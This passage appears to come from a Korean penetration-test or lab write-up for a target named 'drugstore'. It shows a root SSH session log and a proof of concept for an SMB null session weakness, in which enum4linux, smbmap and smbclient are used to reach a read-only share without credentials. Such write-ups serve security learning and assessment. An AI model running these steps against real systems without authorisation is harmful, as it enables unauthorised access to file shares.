 ```sh
┌──(kali㉿kali)-[~/drugstore]
└─$ ssh root@172.31.177.177                                                                
root@172.31.177.177's password:
                            [...]
root@ip-172-31-177-177:~# id;hostname;whoami
uid=0(root) gid=0(root) groups=0(root)
ip-172-31-177-177
root
root@ip-172-31-177-177:~#
```

## 취약점
### 1. smb 널 세션 취약점
#### 취약점 개요

|정보|설명|
|----|----|
|이름|smb 널 세션 취약점|
|중요도|상|

#### 취약점 설명
smb 쉐어의 권한이 잘못 설정되어 null session으로 접근 가능하다. null session으로 접근 가능한 쉐어는 도메인 유저 맥락, 계정 정보가 없어도 접근이 가능하다.

#### 개념 증명
`enum4linux`를 사용하여 smb 널 세션 취약점을 발견하였고 `smbmap`을 사용하여 접근 가능한 smb 쉐어를 찾은 뒤 `smbclient`를 통해 널 세션 로그인을 성공 하였다.
```sh
┌──(kali㉿kali)-[~/drugstore]
└─$ enum4linux -a 172.31.177.177

                            [...]
==================================( Session Check on 172.31.177.177 )==================================
[+] Server 172.31.177.177 allows sessions using username '', password ''
                            [...]

┌──(kali㉿kali)-[~/drugstore]
└─$ smbmap -H 172.31.177.177

                            [...]
[+] IP: 172.31.177.177:445      Name: 172.31.177.177            Status: Authenticated
        Disk                                 Permissions     Comment
        ----                                 -----------     -------
        print$                               NO ACCESS       Printer Drivers
        samba-share                          READ ONLY
        IPC$                                 NO ACCESS       IPC Service (ip-172-31-177-177 server (Samba, Ubuntu))

┌──(kali㉿kali)-[~/drugstore]
└─$ smbclient \\\\172.31.177.177\\samba-share
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \>
```
